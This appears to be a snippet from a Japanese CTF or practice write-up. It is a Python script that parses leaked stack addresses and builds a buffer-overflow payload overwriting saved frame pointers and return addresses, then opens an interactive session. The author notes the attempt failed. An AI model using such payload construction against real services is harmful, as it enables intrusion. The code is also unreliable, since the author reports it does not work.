```python
buf=conn.recvline()
saved_main=buf.decode('utf-8')
saved_main=saved_main[23:39]

buf=conn.recvline()
buf=conn.recvline()
ret_main=buf.decode('utf-8')
ret_main=ret_main[23:39]

print(saved_vuln)
print(ret_vuln)
print(saved_main)
print(ret_main)

# padding
for i in range(8*4):
    send_data+='\0'

# saved_vuln address
for i in reversed(range(0,len(saved_vuln),2)):
    if i==len(saved_vuln)-2:
        send_data+=chr(int(saved_vuln[i:i+2],16)-0)
    else:
        send_data+=chr(int(saved_vuln[i:i+2],16))

# change address
for i in reversed(range(0,len(terget_address),2)):
    send_data+=chr(int(terget_address[i:i+2],16))
for i in range(5):
    send_data+='\0'

"""
# ret_vuln address
for i in reversed(range(0,len(ret_vuln),2)):
    if i==len(ret_vuln)-2:
        send_data+=chr(int(ret_vuln[i:i+2],16)+0)
    else:
        send_data+=chr(int(ret_vuln[i:i+2],16))
"""

# saved_main address
for i in reversed(range(0,len(saved_main),2)):
    if i==len(saved_main)-2:
        send_data+=chr(int(saved_main[i:i+2],16)-0)
    else:
        send_data+=chr(int(saved_main[i:i+2],16))

# ret_main address
for i in reversed(range(2,len(ret_main),2)):
    send_data+=chr(int(ret_main[i:i+2],16))

conn.recvuntil("Input: ")
conn.send(send_data)
result=conn.recvall()
conn.interactive()
conn.close()
print(result.decode('utf-8'))
print(send_data)
```
色んなところのアドレスを書き換えられるようにして色々試してみたが結局ダメだった。
謎は深まるばかり。
